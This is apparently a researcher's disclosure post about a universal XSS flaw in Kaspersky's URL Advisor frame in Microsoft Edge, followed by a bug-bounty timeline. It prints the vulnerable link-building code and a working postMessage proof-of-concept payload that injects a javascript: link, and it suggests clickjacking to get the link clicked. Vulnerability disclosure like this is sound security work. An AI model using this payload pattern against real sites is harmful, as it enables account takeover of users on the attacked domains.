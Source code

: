 {{< img src="url_advisor.png" alt="URL Advisor frame showing up when the checkmark icon is hovered" width="496" />}}

Certainly, when injecting their own web page into every domain on the web Kaspersky developers thought about making it very secure? Let's have a look at the code running there:

{{< highlight js >}}
var policeLink = document.createElement("a");
policeLink.href = IsDefined(UrlAdvisorLinkPoliceDecision) ? UrlAdvisorLinkPoliceDecision : locales["UrlAdvisorLinkPoliceDecision"];
policeLink.target = "_blank";
div.appendChild(policeLink);
{{< /highlight >}}

This creates a link inside the frame dynamically. Where the link target comes from? It's part of the data received from the parent document, no validation performed. In particular, `javascript:` links will be happily accepted. So a malicious website needs to figure out the location of `url_advisor_balloon.html` and embed it in a frame using the host name of the website they want to attack. Then they send a message to it:

{{< highlight js >}}
frame.contentWindow.postMessage(JSON.stringify({
  command: "init",
  data: {
    verdict: {
      url: "",
      categories: [
        21
      ]
    },
    locales: {
      UrlAdvisorLinkPoliceDecision: "javascript:alert('Hi, this JavaScript code is running on ' + document.domain)",
      CAT_21: "click here"
    }
  }
}), "*");
{{< /highlight >}}

What you get is a link labeled "click here" which will run arbitrary JavaScript code in the context of the attacked domain when clicked. And once again, the attackers could ask the user nicely to click it. Or they could use clickjacking, so whenever the user clicks anywhere on their site, the click goes to this link inside an invisible frame.

{{< img src="uxss.png" alt="Injected JavaScript code running in context of the Google domain" width="326" />}}

And here you have it: a malicious website taking over your Google or social media accounts, all because Kaspersky considered it a good idea to have their content injected into secure traffic of other people's domains. But at least this particular issue was limited to Microsoft Edge.

## Timeline

* 2018-12-13: Sent report via Kaspersky bug bounty program: Lack of HSTS support facilitating MiTM attacks.
* 2018-12-17: Sent reports via Kaspersky bug bounty program: [Certificate warning pages susceptible to clickjacking](https://hackerone.com/reports/463695) and [Universal XSS in Microsoft Edge](https://hackerone.com/reports/463915).
* 2018-12-20: Response from Kaspersky: HSTS and clickjacking reports are not considered security issues.
* 2018-12-20: Requested disclosure of the HSTS and clickjacking reports.
* 2018-12-24: Disclosure denied due to similarity with one of my other reports.
* 2019-04-29: Kaspersky notifies me about the three issues here being fixed (KIS 2019 Patch E, actually released three weeks earlier).
* 2019-04-29: Requested disclosure of these three issues, no response.